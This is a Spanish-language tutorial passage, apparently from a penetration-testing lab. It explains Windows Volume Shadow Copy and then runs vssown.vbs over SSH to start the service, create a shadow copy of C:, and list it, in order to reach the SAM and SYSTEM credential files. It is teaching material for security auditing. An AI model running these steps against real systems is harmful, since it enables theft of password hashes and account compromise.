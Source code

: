 - Los usuarios pueden restaurar versiones previas de archivos o carpetas si los datos se pierden, se eliminan o se corrompen. En entornos empresariales, esta función es esencial para la recuperación rápida de datos.

##### 5.3.2. Copias de Seguridad:

- VSS facilita las copias de seguridad en servidores y estaciones de trabajo. Las aplicaciones de respaldo pueden utilizar las copias de sombra para hacer copias consistentes de archivos sin interrumpir los servicios en ejecución.

##### 5.3.3. Seguridad y Auditoría:

- Los analistas de seguridad pueden utilizar VSS para acceder a archivos críticos del sistema, como el archivo SAM y SYSTEM, sin interferir con los archivos activos en el sistema. Esto permite la auditoría y extracción de hashes de contraseñas para evaluaciones de seguridad y pruebas de penetración.

##### 5.3.4. Ejemplo de uso de Volume Shadow Copy en Seguridad

- Una de las técnicas comunes es crear una copia de sombra del volumen C: y acceder a archivos protegidos, como SAM y SYSTEM, que contienen información sobre los usuarios y sus credenciales. Esto es útil en auditorías de seguridad o en situaciones donde es necesario recuperar credenciales de usuario para evaluar la seguridad del sistema.

### 5.4. Ejecuta el script vssown.vbs 

- Iniciamos el servicio Volume Shadow Copy.

    ```bash
    ssh vagrant@10.0.2.15 'cscript C:\\Windows\\Temp\\vssown.vbs /start'
    ```
- Verificamos el estado del servicio Volume Shadow Copy (OPCIONAL).

    ```bash
    ssh vagrant@10.0.2.15 'cscript C:\\Windows\\Temp\\vssown.vbs /status'
    ```

- Creamos la copia del shadow volumen C.

    ```bash
    ssh vagrant@10.0.2.15 'cscript C:\\Windows\\Temp\\vssown.vbs /create c'
    ```

- Listamos las copias de volumen shadow existentes.

    ```bash
    ssh vagrant@10.0.2.15 'cscript C:\\Windows\\Temp\\vssown.vbs /list'
    Microsoft (R) Windows Script Host Version 5.8
    Copyright (C) Microsoft Corporation. All rights reserved.

    SHADOW COPIES
    =============

    [*] ID:                  {2AB51C31-A93D-4F81-9596-0F7045E96FDD}
    [*] Client accessible:   True
    [*] Count:               1
    [*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
    [*] Differential:        True
    [*] Exposed locally:     False
    [*] Exposed name:        
    [*] Exposed remotely:    False
    [*] Hardware assisted:   False
    [*] Imported:            False
    [*] No auto release:     True
    [*] Not surfaced:        False
    [*] No writers:          True
    [*] Originating machine: vagrant-2008R2
    [*] Persistent:          True
